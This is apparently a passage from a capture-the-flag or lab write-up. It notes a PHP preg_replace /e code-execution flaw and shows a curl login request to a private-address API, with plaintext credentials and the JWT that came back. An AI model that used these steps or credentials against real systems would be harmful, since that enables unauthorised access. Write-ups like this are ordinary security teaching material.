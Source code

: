 **Vulnerability**: The `/e` modifier in `preg_replace()` evaluates `$content` as PHP code, enabling Remote Code Execution.

## API Exploitation

### API Discovery

![API Project](images/Pasted%20image%2020251012002205.png)

### JWT Token Acquisition

```bash
curl -s -X POST "http://192.168.40.39:5000/ls2o4g/v1.0/auth/login" \
  -H "Content-Type: application/json" \
  -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}'
```

**Response**:

```json
{
  "token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3NjA4NTE5MzgsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.NmIgqh4p5pAo7JzIchJ8B04FM4If8dYUQYv3uij_BMI",
  "user":{"display_name":"achilles","id":1,"username":"achilles"}
}
```
